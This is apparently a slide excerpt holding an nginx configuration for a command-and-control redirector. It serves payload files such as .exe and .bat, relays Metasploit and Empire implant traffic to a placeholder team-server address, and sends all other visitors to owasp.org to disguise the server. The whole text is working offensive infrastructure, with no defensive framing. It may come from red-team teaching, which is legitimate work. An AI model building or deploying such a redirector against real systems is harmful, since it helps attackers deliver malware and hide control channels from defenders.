

# C2 (nginx redirector)
# Serve payload
location /load-pay {
  try_files $uri $uri.exe $uri.bat =302;
}

# Metasploit
location ~ ^/update(.*) {
  proxy_pass http://[team-server-IP]:80;
}

# Empire
location ~ ^/(admin/get.php|news.php|login/process.php|download/more.php) {
 proxy_pass http://[team-server-IP]:80;
}

# Catch all to toss the rest at owasp.org
location / {
  proxy_pass https://owasp.org;
}